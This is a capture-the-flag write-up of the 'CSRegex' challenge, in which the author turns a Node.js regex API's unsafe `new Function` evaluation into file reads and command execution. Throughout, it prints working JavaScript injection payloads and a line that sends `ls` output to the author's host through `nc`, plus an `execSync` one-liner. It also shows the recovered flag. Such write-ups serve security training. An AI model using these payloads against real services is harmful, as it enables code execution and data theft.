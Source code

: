 # CSRegex

Points: 100

I looked at the URL first. The format was:
```
GET http://chal.cybersecurityrumble.de:9876/api/regex/<pattern>/<flags>/<input>
```

Each parameter was Base64 encoded. Based on the information from the page, it
looks like `eval()` is being used. Eventually I found this worked:
```
' + process.cwd() + '
```

Unfortunately, doing the usual `require('fs')` trick does not work because it
says `require` is not defined. Not sure why.

After trying other things for a few hours, I eventually found this:
```
'+Object.getOwnPropertyNames(this)+'
```

This gave me:
```json
{ "result": "simpleFs" }
```

Proceeding on this thread:
```
'+Object.getOwnPropertyNames(this.simpleFs)+'
-> { "result": "length,prototype,exists,readFile,readFileSync,writeFile,writeFileSync,appendFile,appendFileSync,name" }

'+this.simpleFs+'
-> { "result": "class SimpleFs {\n static exists(path) {\n return new Promise((res, rej) => {\n fs.stat(path, (err, stats) => {\n if (err) return rej(err);\n if (!stats.isFile()) return rej('Not a file');\n return res();\n });\n });\n }\n\n static readFile(path) {\n return new Promise((res, rej) => {\n if (!fs.existsSync(path)) return rej('File not found');\n fs.readFile(path, { encoding: 'utf-8' }, (err, data) => {\n if (err) return rej(err);\n return res(data);\n });\n });\n }\n\n static readFileSync(path) {\n if (!fs.existsSync(path)) return rej('File not found');\n try {\n return fs.readFileSync(path, { encoding: 'utf-8' });\n } catch (ex) {\n return false;\n }\n }\n\n static writeFile(path, contents) {\n return new Promise((res, rej) => {\n if (fs.existsSync(path)) return rej('File already exists');\n fs.writeFile(path, contents, { encoding: 'utf-8' }, (err) => {\n if (err) return rej(err);\n return res();\n })\n });\n }\n\n static writeFileSync(path, contents) {\n if (fs.existsSync(path)) return rej('File already exists');\n try {\n fs.writeFileSync(path, contents, { encoding: 'utf-8' });\n return true;\n } catch (ex) {\n return false;\n }\n }\n\n static appendFile(path, contents) {\n return new Promise((res, rej) => {\n if (!fs.existsSync(path)) return rej('File not found');\n fs.appendFile(path, contents, { encoding: 'utf-8' }, (err) => {\n if (err) return rej(err);\n return res();\n });\n });\n }\n\n static appendFileSync(path, contents) {\n if (!fs.existsSync(path)) return rej('File not found');\n try {\n fs.appendFileSync(path, contents, { encoding: 'utf-8' });\n return true;\n } catch (ex) {\n return false;\n }\n }\n}" }

'+process.argv+'
-> { "result": "/usr/bin/node,/app/index.js" }

'+this.simpleFs.readFileSync('/app/index.js')+'
-> { "result": "var express = require('express');\nvar cors = require('cors');\n\nvar app = express();\nvar api = require('./api')\n\napp.use(cors());\n\nprocess.on('unhandledRejection', (reason, promise) => {\n console.log('Unhandled Rejection at:', reason.stack || reason)\n})\n\n\nprocess.on('uncaughtException', function (err) {\n console.error(err.stack);\n});\n\napp.use((req, res, next) => {\n res.header('Server', 'dunno');\n res.header('X-Powered-By', 'love <3');\n res.header('Level', (9000 + Math.random() * 1000).toFixed(0));\n next();\n});\n\n//Static\napp.use(express.static('dist'));\n\n//rest\napp.use('/api', api);\n\n//Troll\napp.use('/admin', function (req, res) {\n res.status(401).send();\n});\napp.use('/phpMyAdmin', function (req, res) {\n res.status(402).send();\n});\napp.use('/test.php', function (req, res) {\n res.status(403).send();\n});\n\n//Custom 404\napp.get('*', function (req, res) {\n res.status(404).send('notfound.jpeg');\n});\n\napp.listen(8080, () => {\n console.log(`Listening...`)\n});" }
```

Note this line: `var api = require('./api')`
```
'+this.simpleFs.readFileSync('/app/index.js')+'
-> { "result": "var express = require('express');\nvar router = express.Router();\nvar RegexEr = require('./regexer')\n\nrouter.get('/regex/:pattern/:flags/:input', (req, res) => {\n var params = {\n pattern: req.params.pattern,\n input: req.params.input,\n flags: req.params.flags\n };\n try {\n params.pattern = Buffer.from(req.params.pattern, 'base64').toString();\n params.input = Buffer.from(req.params.input, 'base64').toString().replace(/\\n/gm, \"\").trim();\n params.flags = Buffer.from(req.params.flags, 'base64').toString();\n RegexEr.process(params.pattern, params.flags, params.input)\n .then((result) => res.status(200).send({result: result}))\n .catch((err) => res.status(400).send({ error: err.message }));\n\n } catch (ex) {\n console.error(ex);\n res.status(400).send(JSON.stringify(ex));\n }\n\n});\n\nmodule.exports = router;" }

'+this.simpleFs.readFileSync('/app/regexer.js')+'
-> { "result": "const sfs = require('./simple-fs');\n\nconst LOGFILE = 'requests.log';\n\nclass RegexEr {\n constructor() {\n this.simpleFs = sfs;\n }\n process(pattern, flags, input) {\n return new Promise((res, rej) => {\n try {\n var str = `var _result = '${input}'.match(/${pattern}/${flags}); return _result;`;\n this.addLogLine(LOGFILE, str + '\\n');\n console.log(str);\n var fun = new Function(str);\n var result = fun.call(this);\n res(result);\n } catch (ex) {\n rej(ex);\n }\n });\n }\n addLogLine(logFile, content) {\n this.simpleFs.appendFile(logFile, content);\n }\n}\n\nconst REGEXER_INSTANCE = new RegexEr();\n\nmodule.exports = REGEXER_INSTANCE;" }

'+this.simpleFs.readFileSync('/app/leftover.js')+'
-> { "result": "class Utility {\n require(resource) {\n return new Promise((res, rej)=>{\n try {\n var module = require(resource);\n return res(module); \n } catch(ex) {\n return rej(ex);\n }\n });\n }\n isRunningOnWindows() {\n return process.platform.indexOf('win' === 0);\n }\n getUrlHost(url) {\n try{\n return new URL(url).hostname;\n } catch(ex){\n return null;\n }\n }\n}\n\nLEGACY_UTILS = new Utility();\n\nmodule.exports = LEGACY_UTILS;" }
```

The `require` function looks very interesting. If I can `require` the `fs`
module and call `readdirSync`, then I could figure out where the flag is.
Unfortunately, it returns a Promise object. I spent a few hours trying to figure
out how to resolve a promise synchronously and it eventually realized that it
was probably impossible. JS is stupid.

Finally, I tried to an exploit that did not require synchronous execution and
return. Instead of trying to make it return the string I wanted in the request,
I would make it run `ls` and send the output to my server.

So next I made my router forward port 4445. Next I set up a listener on my
computer:
```
$ nc -lvp 4445
```

Then using my public IP, I used the following payload:
```
' + LEGACY_UTILS.require('child_process').then((cp) => { cp.exec ('ls | nc <my_public_ip> 4445') }, null) + '
```

I got output on my listener!
```
$ nc -lvp 4445
Listening on [0.0.0.0] (family 0, port 4445)
Connection from 193.10.78.34.bc.googleusercontent.com 44997 received!
api.js
csregex
dist
dockerfile
index.js
leftover.js
node_modules
package-lock.json
package.json
regexer.js
requests.log
simple-fs.js
```

Finally:
```
'+this.simpleFs.readFileSync('/app/dockerfile')+'
-> { "result": "from mhart/alpine-node:12\nWORKDIR /app\nCOPY . .\nRUN apk update\nRUN apk upgrade\nRUN apk add bash\nRUN apk add curl\nRUN npm install\nRUN chown root:root .\nRUN chmod -R 755 .\nRUN adduser -D -g '' server\nRUN touch requests.log\nRUN chown server:server requests.log\nRUN chmod +s /usr/bin/curl\nRUN echo 'CSR{r363x_15_fun_r363x_15_l0v3}' > /root/flaggerino_flaggeroni.toxt\nRUN chmod 640 /root/flaggerino_flaggeroni.toxt\nRUN chmod 744 /root\nUSER server\nEXPOSE 8080\nCMD [ \"node\", \"index.js\"]null" }
```

---

Note: somehow this person solved it
[like this](https://gist.github.com/po6ix/b5885264ee0128e8f14bc293396081b5):
```
'+constructor.constructor("return process")().mainModule.require("child_process").execSync('cat * | grep CSR')+'
```
